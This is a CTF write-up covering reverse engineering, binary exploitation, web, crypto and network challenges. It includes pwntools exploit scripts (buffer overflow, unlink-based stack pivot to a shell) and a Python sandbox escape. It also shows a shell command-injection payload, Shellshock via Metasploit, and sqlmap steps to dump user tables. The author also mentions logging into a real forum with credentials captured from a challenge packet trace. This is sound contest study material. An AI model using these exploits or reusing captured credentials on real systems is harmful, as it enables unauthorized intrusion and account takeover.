

# reverse

## recurse

Simple recursion. Just a factorial program, and the number being entered must be 10!.

```c
__int64 __fastcall factorial(__int64 a1)
{
  __int64 result; // rax

  if ( a1 )
    result = a1 * factorial(a1 - 1);
  else
    result = 1LL;
  return result;
}

puts("\nWhat's the magic number?");
v5 = factorial(10LL);
__isoc99_scanf("%lu", &v4);
if ( v4 == v5 )
    get_flag();
else
    puts("hmmm not quite...");
```

## king geedeebee

breakpoint at 0x4006AD, then look at the stack, you get the flag

## another boom lab

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char input[256]; // [rsp+0h] [rbp-110h]
  unsigned __int64 v5; // [rsp+108h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("Here is a bomb, defuse it and save yourself.\nEnter the secret pass phrase.");
  fgets(input, 256, _bss_start);
  if ( strlen(input) != 15 )                    // len == 15
    explode();
  get_flag(input);
  return 0;
}
```

Input length must be 15, excluding the '\n', we get length 14

```c
unsigned __int64 __fastcall get_flag(const char *input)
{
  int v1; // er12
  signed int i; // [rsp+14h] [rbp-BCh]
  int key[27]; // [rsp+20h] [rbp-B0h]
  char s1[40]; // [rsp+90h] [rbp-40h]
  unsigned __int64 v6; // [rsp+B8h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  *strchr(input, 0xA) = 0;                      // len = 14
  key[0] = 31;
  key[1] = 13;
  key[2] = 5;
  key[3] = 8;
  key[4] = 15;
  key[5] = 62;
  key[6] = 29;
  key[7] = 93;
  key[8] = 27;
  key[9] = 7;
  key[10] = 7;
  key[11] = 45;
  key[12] = 48;
  key[13] = 12;
  key[14] = 72;
  key[15] = 15;
  key[16] = 59;
  key[17] = 13;
  key[18] = 68;
  key[19] = 50;
  key[20] = 17;
  key[21] = 50;
  key[22] = 8;
  key[23] = 95;
  key[24] = 12;
  key[25] = 58;
  key[26] = 18;
  for ( i = 0; i <= 26; ++i )
  {                                             // 27 times
    v1 = key[i];
    s1[i] = input[i % strlen(input)] ^ v1;      // strlen == 14
  }
  if ( strncmp(s1, "flag{an0", 8uLL) )
    explode();
  printf("%s", s1);
  putchar('\n');
  return __readfsqword(0x28u) ^ v6;
}
```

This is an encoding, and the first 8 character must be flag{an0. However, this is not enough to obtain the flag, since there are multiple solutions that satisfy the check.

Using python, we can figure out part of the input that satisfied the check.

```python
key = [31,13,5,8,15,62,29,93,27,7,7,45,48,12,72,15,59,13,68,50,17,50,8,95,12,58,18]
s1 = map(ord, list("flag{an0"))

inp = []

for i in xrange(0, 8):
	inp.append(s1[i] ^ key[i])

print "".join(map(chr, inp))
```

which gives "yadot\_sm", so any 14 character beginning with "yadot\_sm" can satisfy the check.

Here is a bomb, defuse it and save yourself.
Enter the secret pass phrase.
yadot\_smxxxxxx
flag{an0cUHt1n\_b0mb\_p'tBj

However, this is not correct flag. Then this is where I've been stucked, there is no other hint in the problem. However, according to the convention of CTF, the flag must be something like an0ther of an0th3r, so let's try.

```python
#1st one
key = [31,13,5,8,15,62,29,93,27,7,7,45,48,12,72,15,59,13,68,50,17,50,8,95,12,58,18]
s1 = map(ord, list("flag{an0ther"))

inp = []

for i in xrange(0, 12):
	inp.append(s1[i] ^ key[i])

print "".join(map(chr, inp))

#2nd one
key = [31,13,5,8,15,62,29,93,27,7,7,45,48,12,72,15,59,13,68,50,17,50,8,95,12,58,18]
s1 = map(ord, list("flag{an0th3r"))

inp = []

for i in xrange(0, 12):
	inp.append(s1[i] ^ key[i])

print "".join(map(chr, inp))
```

which gives yadot\_smoob\_ and yadot\_smoo4\_.

Also, the last character, which has index 26, must be '\}', so 

```python
chr(18 ^ ord('}'))
```

is 'o'.

According to encoding algorithm, 26 % 14 = 12, so input[12] should be 'o'.

Now we can know the input is yadot\_smoob\_ox or yadot\_smoo4\_ox, and the first one seems more reasonable, because it is composed of letters and '\_' only.

Putting it into program again, we can see that this is almost correct:

Here is a bomb, defuse it and save yourself.
Enter the secret pass phrase.
yadot_smoob_ox
flag{an0ther_t1n_b0mb_g0ne}

So what is yadot smoob? Not English definitely, so I searched this on google, and found this



Reverse Dict. Oh, then I realized that it is reversed English: "xo booms today", perhaps it is "no booms today", and trying "yadot_smoob_on", I've got the correct flag.

Yes, this annoying reverse engineering problem is basically guessing!

# Exploitation

## crashme

Quite simple, just enter a string long enough that can cause overflow.

## pybox

Actually I did this question after I had done all of the pwn problems, since it is the first python pwn for me.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import sys
import traceback

print("[SECURE PYTHON v0.0.1]")
#This will remove all built-in functions such as __import__, so we cannot do __import__('os').system('/bin/sh')
#However, there is module sys for us to use
#Searching the python documentation of sys module, we can find an interesting one, sys.modules, which is a dictionary that maps all module name to actual module object
#This includes 'os': <module 'os' from '/usr/lib/python2.7/os.pyc'>
#Thus, sys.modules['os'] can give module os, so sys.modules['os'].system("/bin/sh") can give the shell
targets = __builtins__.__dict__.keys()
for x in targets:
    del __builtins__.__dict__[x]

def raw_input():
    data = ''
    while 1:
        i = sys.stdin.read(1)
        if i == '\n':
            return data
        else:
            data += i

while 1:
    try:
        sys.stdout.write(">>> ")
        data = raw_input()
        exec data
    except:
        sys.stdout.write("Whoops\n")
```

## easybof

```python
from pwn import *
sh = remote("159.203.149.53", 30008)
sh.send("A" * 0x2c + p32(0xb00bface))
sh.interactive()
```

Just note that number of "A" is 0x2c instead of 0x20

```assembly
-0000000000000030 var_30          db 32 dup(?)
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004 var_4
```

## unlink

Not the usual safe unlink caused by free\(\), but a self-written unlink.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  link *l1; // [esp+10h] [ebp-18h]
  link *l2; // [esp+14h] [ebp-14h]
  link *l3; // [esp+18h] [ebp-10h]
  unsigned int v7; // [esp+1Ch] [ebp-Ch]

  v7 = __readgsdword(0x14u);
  malloc(0x400u);
  l1 = (link *)malloc(0x10u);
  l2 = (link *)malloc(0x10u);
  l3 = (link *)malloc(0x10u);
  l1->front = l2;
  l2->back = l1;
  l2->front = l3;
  l3->back = l2;
  printf("here is stack address leak: %p\n", &l1);
  printf("here is heap address leak: %p\n", l1);
  puts("now that you have leaks, get shell!");
  fflush(_bss_start);
  gets(l1->buf);
  unlink(l2);
  return 0;
}

_DWORD *__cdecl unlink(link *a1)
{
  link *back; // ST08_4
  link *front; // ST0C_4
  link *result; // eax

  back = a1->back;
  front = a1->front;
  front->back = back;     // back = change
                          // front = rop+4
  result = back;
  back->front = front;
  return &result->front;
}
int shell()
{
  return system("/bin/sh");
}
```

This is just a typical arbitrary dword shoot without any protection

Initially I was thinking to change return address in stack to shell function, however, dword shoot always causes an reflection shoot, and in this case, it will cause unwrittable code segment to be written, so this does not work.

If we cannot manipulate eip, how about manipulate the esp, and let esp points to somewhere on the heap, where our ROP is putted?

Looking at the end of main function,

```assembly
.text:080486E4   mov  ecx, [ebp+change_this_to_heap]
.text:080486E7   leave
.text:080486E8   lea  esp, [ecx-4]
.text:080486EB   retn
```

so if we change variable change\_this\_to\_heap to our ROP\+4, and ROP saves address of shell function, we can get the shell.

Therefore, if we let back = change\_this\_to\_heap, and front = rop\+4, when unlink, \[front\+4\] = back and \[back\] = front will be executed, which is \[rop\+8\] = change\_this\_to\_heap\(unuseful reflection\) and \[change\_this\_to\_heap\] = rop\+4 \(what we want\).

Exploit is

```python
from pwn import *
g_local = False
if g_local:
	sh=process("./unlink")
	#sh=gdb.debug("./unlink")
else:
	sh=remote("159.203.149.53",30007)

def parse_hex(hex_str):
	return int(hex_str[:hex_str.find("\n")], 16)

shell_addr = 0x0804859B

#buf = 0x804b418
#0x0804b410 l1
#0x0804b428 l2
#0x0804b410	0x0804b428	0x0804b440
front = 0x24
back = 0x14

sh.recvuntil("here is stack address leak: ")
back += parse_hex(sh.recvuntil("here is heap address leak: "))
front += parse_hex(sh.recvuntil("get shell!\n"))

sh.send("A" * 0x10 + p32(front) + p32(back) + p32(shell_addr) + "\n")
sh.interactive()

```

Note that we can also let back to be heap address and front to be stack address, which is almost same except we need change \- 4 to be front.

# web

## Memmaker

This one is actually easy, in users.js :

```javascript
document.cookie = "username=guest";
if(document.cookie == "username=premium"){
    alert("PREMIUM: flag{" + ([]+{})[2] + (typeof null)[0] + (typeof NaN)[(typeof NaN).length - 1] + (typeof NaN[(typeof NaN).length - 1])[1] + ("" + (!+[]+[]+![]).length - 7) + ("" + (" " == 0)) +"}");
}
```

Just execute that alert and flag can be obtained.

Initially I didn't look at the script being included in \<head\> but only the script in index, because I thought it is something not useful like jquery.min.js, so I stucked quite a while...

## isitalive

firstly remove the client side restriction: 

```html
<input name="ip" placeholder="8.8.8.8" onkeydown="return valid(event);" type="text">
<!-- to -->
<input name="ip" placeholder="8.8.8.8" onkeydown="return true;" type="text">
```

and then you find it is a ping service, which is usually vunerable to command line injection\.

If we give "8.8.8.8 && ls" and "8.8.8.8 && cat flag.txt", we can get the flag\.

Note that "&" and spaces should be url encoded\.

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=59 time=2.085 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=59 time=1.380 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=59 time=1.402 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=59 time=1.338 ms
--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 1.338/1.551/2.085/0.309 ms
flag{if_only_routers_played_ctf}

https://www.kb.cert.org/vuls/id/582384
```

## shellshocked

cgi\-bin/index\.cgi

Nothing special can be found by brousing, scan with nikto in kali, we found that this website is vunerable to CVE\-2014\-6271, and its exploit can be found in metasploit.

[CVE-2014-6271](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec)

However, the trouble is that we need a public IP to listen the reversed TCP, so I have enabled the port forwarding in both router and VMware, and disabled the filewalls in my host and kali virtual machine for that one port. Note that all of the port numbers \(port in router, host computer, and virtual machine\) should be same, or else the metasploit will go wrong \(I don't know why\.\.\.\).

[Metasploit Meterpreter and NAT | Corelan Team](https://www.corelan.be/index.php/2014/01/04/metasploit-meterpreter-and-nat/)

## gitmeifyoucan

Nothing special, again, so use nikto to scan, \.git leak is found.

What I did is download all the files in \.git manually, then git log, and then "git reset \-\-hard \[commit hash\]". I think there is a better automatic way to download the \.git directory.

## blind

Blind Sql injection in password.

1. use BurpSuite to take that login pakage

2. copy the http content and save it into a file

3. sqlmap \-r blind\.txt \-p password \-\-level 5, this scan to let sqlmap to know that there is indeed a injection

4. sqlmap \-r blind\.txt \-p password \-\-dbs, this gives the database information, including database type\(mysql\) and database names

5. sqlmap \-r blind\.txt \-p password \-\-sql\-shell

6. ```sql
   SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE' AND TABLE_SCHEMA='webapp';
   -- webapp obtained from step 4
   SELECT * FROM webapp.users; 
   -- This can obtain id, password, username
   SELECT id, password, username FROM webapp.users WHERE username='admin';
   ```

7. flag is password

# Crypto

## bacon64

decode as base64, flag is clear text

## hashes

[www.cmd5.org](www.cmd5.org)

## RSA

[https://www.cs.drexel.edu/~introcs/Fa11/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt.html](https://www.cs.drexel.edu/~introcs/Fa11/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt.html)

## weak keys

[https://github.com/Ganapati/RsaCtfTool.git](https://github.com/Ganapati/RsaCtfTool.git)

## many time pad

[https://github.com/Jwomers/many-time-pad-attack](https://github.com/Jwomers/many-time-pad-attack)

//todo

# Network

## telnet

Use wireshark to open it, and search for flag

## ftp

Use wireshark to open it, filter for ftp \|\| ftp\-data, and find the first package for the series of ftp\-data. Right click, Follow, TCP Stream, and save the data as raw. There are several file, but the one containing flag is the png one.

## Mean People SEO

Use wireshark to open it, search for password. There is one HTTP POST pakage containing the email and password. Host is BlackHatWorld forum, and logging into the BlackHatWorld, I found nothing. :\) So I failed to solve this one.

Update: Now I have solved this one, the flag is actually the password. However, there are 2 POST package, one with correct password and one with incorrect password. When I submitted password as flag, I used the incorrect one; when I logged in BlackHatWorld website, I have used the correct one. This made me think that the flag was not password but something in that website, which was wrong...